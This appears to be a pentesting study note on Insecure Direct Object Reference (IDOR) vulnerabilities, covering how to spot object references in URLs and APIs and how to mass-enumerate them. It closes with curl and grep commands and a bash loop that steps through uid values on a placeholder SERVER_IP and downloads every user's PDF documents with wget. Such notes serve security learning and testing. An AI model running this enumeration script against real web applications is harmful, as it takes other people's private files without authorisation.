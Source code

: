 ```yaml
---
layout: default
title: IDOR
permalink: /Web/idor/
---
```


# Insecure Direct Object Reference (IDOR)
IDOR vulnerabilities occur when a web application exposes a direct reference to an object, like a file or a database resource, which the end-user can directly control to obtain access to other similar objects. 
IDOR vulnerability mainly exists due to the lack of an access control on the back-end.

## Identifying IDORs
- Whenever we receive a specific file or resource, we should study the HTTP requests to look for URL parameters or APIs with an object reference (e.g. ?uid=1 or ?filename=file_1.pdf). These are mostly found in URL parameters or APIs but may also be found in other HTTP headers, like cookies. We can use a fuzzing application to try thousands of variations and see if they return any data. Any successful hits to files that are not our own would indicate an IDOR vulnerability.
- We may also be able to identify unused parameters or APIs in the front-end code in the form of JavaScript AJAX calls.
- Some web applications may not use simple sequential numbers as object references but may encode the reference or hash it instead.
- If we want to perform more advanced IDOR attacks, we may need to register multiple users and compare their HTTP requests and object references. This may allow us to understand how the URL parameters and unique identifiers are being calculated and then calculate them for other users to gather their data. We can try repeating the same API calls while logged in as the other user to see if the web application returns anything.

## Mass Enumeration
We can either use a tool like Burp Intruder or ZAP Fuzzer to retrieve all files or write a small bash script to download all files.
If the HTML source code of the links to view file is the following:
```
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
```
We can use this command:
```
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"
```
Use regex to get the document links:
```
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```
Then we can use a simple for loop to loop over the uid parameter and return the document of all employees, and then use wget to download each document link:
```
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

